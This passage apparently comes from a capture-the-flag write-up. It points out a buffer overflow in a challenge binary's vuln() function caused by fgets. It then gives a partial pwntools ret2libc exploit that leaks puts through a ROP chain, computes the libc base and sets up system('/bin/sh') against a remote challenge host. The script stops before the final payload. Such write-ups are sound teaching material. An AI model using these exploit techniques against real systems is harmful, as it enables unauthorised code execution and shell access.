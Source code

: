 ![](image19.png)  
Content of `vuln` function

Notice that, inside `vuln()` function it contains the vulnerability for buffer overflow attack because of using `fgets()` function but the size does not fit into the declared variable. So write the python script for the exploitation.

```python
from pwn import *

exe = ELF("./chall_patched")  
libc = ELF("./libc.so.6")  
rop = ROP(exe)

context.binary = exe

pop_rdi = rop.find_gadget(["pop rdi"])[0]  
ret = rop.find_gadget(["ret"])[0]  
puts_got = exe.got.puts  
puts_plt = exe.plt.puts  
vuln = exe.symbols.vuln

def conn():
    if args.LOCAL:  
        return gdb.debug([exe.path]) 
    else:
        return remote("34.133.69.112", 10007)

def main():  
    r = conn()

    # Leak puts@got.plt`  
    r.recvuntil(b"Enter your input: \n")
    payload = flat(
        b'A' * 72,      # Overflow buffer (64) + RBP (8)  
        pop_rdi,        # (1st argument for `puts`)   
        puts_got,       # Address of `puts` in GOT (to leak)  
        puts_plt,       # Call `puts` to print the leaked address  
        vuln,           # Return to vuln() for second payload
        p64(ret) * 3    # Align stack for vuln() return
    )[:127]             # Trim to 127 bytes (exclude NULL)  
    r.send(payload)

    # Parse leaked address  
    leaked_puts = u64(r.recvline().strip().ljust(8, b'\x00'))  
    libc.address = leaked_puts - libc.symbols.puts  
    success(f"Libc base: {hex(libc.address)}")

    # Send shell payload`  
    r.recvuntil(b"Enter your input: \n")
    bin_sh = next(libc.search(b"/bin/sh\x00"))  
    system = libc.symbols.system  
```